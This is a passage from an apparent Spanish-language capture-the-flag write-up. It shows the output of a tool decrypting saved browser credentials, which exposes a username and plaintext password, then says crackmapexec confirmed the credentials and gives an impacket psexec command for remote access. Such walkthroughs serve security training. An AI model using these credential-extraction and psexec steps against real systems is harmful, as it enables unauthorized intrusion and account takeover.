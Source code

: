 ![20240221222445.png](20240221222445.png)

Igual forma podemos obtener la credencial

```php

   OCTETSTRING b'22daf82df08cfd8aa7692b00721f870688749d57b09cb1965dde5c353589dd5d'
 }
clearText b'86a15457f119f862f8296e4f2f6b97d9b6b6e9cb7a3204760808080808080808'
decrypting login/password pairs
   https://creds.com:b'mayor',b'8CL7O1N78MdrCIsV'

```

### Usuario :  mayor

Haciendo uso de las credenciales podemos verificar con `crackmapexec` si son validas y efectivamente son validas.

![20240221220505.png](20240221220505.png)

Ahora para ingresar haremos uso de `impacket-psexec` proporcionando las credenciales que encontramos 

```php
python psexec.py domain/user:password@target_machine 
```
